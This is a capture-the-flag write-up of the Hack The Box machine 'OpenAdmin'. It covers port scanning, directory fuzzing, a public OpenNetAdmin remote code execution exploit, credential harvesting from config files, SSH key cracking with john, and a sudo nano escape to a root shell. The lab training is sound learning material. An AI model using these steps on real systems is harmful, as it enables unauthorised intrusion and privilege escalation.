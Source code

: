 ```yaml
---
date: 2020-05-17
layout: post
title: "Openadmin"
subtitle: Hackthebox
description:
image: /writeup/assets/img/openadmin/openadmin.png
optimized_image:
category: Hackthebox
tags: OpenNetadmin
author:
paginate: false
---
```


Starting with the nmap scan,
```bash
nmap -T4 -p- -A 10.10.10.171
```
Found 2 open ports.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.18 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   470.80 ms 10.10.14.1
2   455.86 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.60 seconds
```
Opening the website hosted at port 80.We get a default apache2 page.
Fuzzing for directories and pages 
```bash
ffuf -w wordlist -u http://10.10.10.171/FUZZ -e .php,.html
```
We get directories **/music** and **/ona**.
![placeholder](/writeup/assets/img/openadmin/music.png "website")
Music directory contains a fine website and ona directory contains the OpenNetAdmin panel.
![placeholder](/writeup/assets/img/openadmin/panel.png "ona")

The version of opennetadmin is 18.1.1 which is vulnerable to a remote code execution exploit.
![placeholder](/writeup/assets/img/openadmin/ona.png "exploit")

Using the exploit we get a shell.
```bash
exp.sh http://10.10.10.171/ona/
```
![placeholder](/writeup/assets/img/openadmin/shell.png "shell")

Eumerating thorugh the machine we get a file */var/www/ona/local/config* which contains password for user jimmy.

**jimmy:n1nj4W4rri0R!**

Inside the /var/www directory, we get a direcctory named Internal . index.php isnide the internal directory contains a username jimmy and a hash which on reverse lookup comes to be **Revealed**.
Looking for open ports
```bash
netstat -tulpn
``` 
![placeholder](/writeup/assets/img/openadmin/ports.png "ports")
We found 1 unusual port 52846.
Maybe a site is hosted internally as it seems to be by the name of directory and the open port 52846.

Inside /etc/apache2/sites_enabled, we get three conf file, one among which states that a site is being operated internally.
```conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htbbloodninjas
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
Let's connect and see what can we get.
Since we know by looking in the files inside Internal directory tht index.php will be used to login and then main.php will show the ssh private key of user joanna.

```bash
curl -s http://127.0.0.1:52846/index.php -c cookie -d “username=jimmy&password=Revealed”
# -c is used to store session data in a cookie named cookie
# -d holds the data to provided in login form
```
and then
```bash
curl  -s http://127.0.0.1:52846/main.php -b cookie
#-b to fetch the cookie named cookie
```
We get the ssh private key for user joanna.
Cracking the key with john shows the passphrase **bloodninjas**

```bash
$ ssh2john.py priv_key > hash
$ john --wordlist=rockyou.txt hash
```
Logged in thorugh ssh.

```bash
ssh -i priv_key joanna@10.10.10.171
```
Got the joanna's shell as well as user.txt.

```bash
sudo -l
```
![placeholder](/writeup/assets/img/openadmin/sudo.png "sudo")
This shows that we can open /opt/priv by nano with root privileges.

Time for GTFObins.

Got the command needed to escalate our privileges
Open the file /opt/priv with root privileges as stated in sudoers file 
```bash
sudo /bin/nano /opt/priv 
```
Now ***Ctrl+R*** then ***Ctrl+X***

We will get tab at bottom to write command to execute.

Type 
***reset; sh 1>&0 2>&0*** 

Got the root shell and the root.txt.


